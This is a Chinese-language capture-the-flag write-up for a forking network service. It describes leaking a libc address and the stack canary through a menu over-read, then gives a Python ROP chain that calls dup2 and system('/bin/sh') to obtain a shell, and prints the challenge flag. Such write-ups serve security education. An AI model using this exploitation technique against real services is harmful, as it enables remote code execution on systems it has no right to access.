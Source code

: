 # tutorial

由於自己對於網路程式設計還沒有概念，而且執行檔在 local 跑不起來，不能用 gdb 觀察，所以看得蠻吃力的。後來感謝 bruce 學長的提點，才順利解出來XD

## 解題流程

程式一開始會建立 socket 連線，然後執行 `fork` 後進入 `menu(int socket)` 選單。

* 選項 1 會輸出 `puts()` 的 address 扣掉 1280 的值，可以從這邊推出 libc address。
* 選項 2 會接收長達 460 bytes 的輸入，並從輸入 buffer 開始輸出 324bytes。透過 IDA 得知該 buffer 的起點位在  `rbp-320` ，所以這裡可以 leak 出位於 `rbp-8` 的 canary。

```C
write(socket_num, "Time to test your exploit...\n", 0x1DuLL);
write(socket_num, ">", 1uLL);
read(socket_num, &s, 460uLL);
write(socket_num, &s, 324uLL);
```

* 選項 3 離開程式。

----------

有了 libc address 和 canary 後就可以開始蓋 ROP chain 了。原本想直接蓋 `system` 開 shell，不知道為什麼失敗了，問了才知道由於前面的 `fork`，這邊直接叫 `system` 的話 file descriptor 會接不起來。所以我們要先用 `dup2()` 把 fd 設好才行。
由於前面呼叫 `read`  時已經把 rdi 設成我們要的值了，所以用 `dup2` 之前只要再把 rsi 設好即可。

```python
chain = 'A'*312 + p64(canary) + 'B'*8 +
	  p64(pop_rsi_r15_ret) + p64(0x0) + p64(0xdeadbeef) + p64(dup2) +
	  p64(pop_rsi_r15_ret) + p64(0x1) + p64(0xdeadbeef) + p64(dup2) +
	  p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

把一開始 `accept` 的回傳值送給 `stdin` 和 `stdout` 之後 call `system` 就可以拿到 shell 了。

```
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```
